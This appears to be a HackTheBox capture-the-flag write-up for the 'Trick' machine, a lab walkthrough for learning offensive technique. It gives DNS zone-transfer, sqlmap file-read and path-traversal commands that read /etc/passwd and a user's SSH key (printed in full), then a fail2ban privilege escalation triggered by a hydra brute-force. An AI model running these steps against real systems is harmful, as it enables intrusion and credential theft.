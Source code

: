```yaml
---
layout: post
title: "Trick"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



as always starting with nmap
```bash
sudo nmap -sC -sV -T4 -oN nmap_trick -p- 10.10.11.166
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619124022.png)


we got 4 open ports , the 80 hosting a static web page without any interesting functionalities , and we can't really do anything with `SMTP` other than enumerating users .
let's enumerate `DNS` 

using `nslookup` we got a domain
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619124718.png)

I will add it to the `/etc/hosts` and use it to get more infos from the `DNS`
using DNS zone transfer we got a new domain 
```bash
dig axfr trick.htb  @10.10.11.166
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619125242.png)

looks like a CMS , quick google show us that there's potential `sqli`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619125707.png)

[exploit](https://www.exploit-db.com/exploits/50802) , the public exploit didn't work , I will use `sqlmap`  

![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130050.png)

`sqli` confirmed

```bash
sqlmap -r sqltest.txt --dump
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130144.png)

the informations we got from the sqli until now , are not helpful , I tried to get shell but that didn't work , so let's try to read files
```bash
sqlmap -r sqltest.txt --file-read "/etc/passwd"
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130532.png)
we can read files 
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130623.png)

try different files but nothing useful , let's try to read the `nginx` files
```bash
sqlmap -r sqltest.txt --file-read "/etc/nginx/sites-available/default"
```
new vhosts
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131428.png)

let's add it to the `/etc/hosts`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131650.png)

potential `lfi`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131712.png)

after testing different payloads , I got this 
`...//....//....//....//....//....//....//....//....//etc/passwd`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131900.png)

`....//....//....//....//....//....//....//....//....///home/michael/.ssh/id_rsa`

```
-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+ 4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/ Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4 1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0 +93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6 IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/ KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0 fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS 3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+ IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```



`sudo -l`
we can restart the `fail2ban service`` , let's check the configuration files of the service
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619132806.png)

we have write access over this folder 
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619133027.png)

 I found this [blog and I followed it to get root]
 (https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)
I will add a malicious code in the `iptables-multiport.conf file
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619133547.png)

and I will restart the `fail2ban servcie` and bruteforce the ssh to trigger `the action ban`

```bash 
sudo /etc/init.d/fail2ban restart
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619134109.png)

```bash
hydra -l idk -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt ssh://10.10.11.166
```
once I will get banned , I will get root xD
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619135009.png)


![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619135036.png)
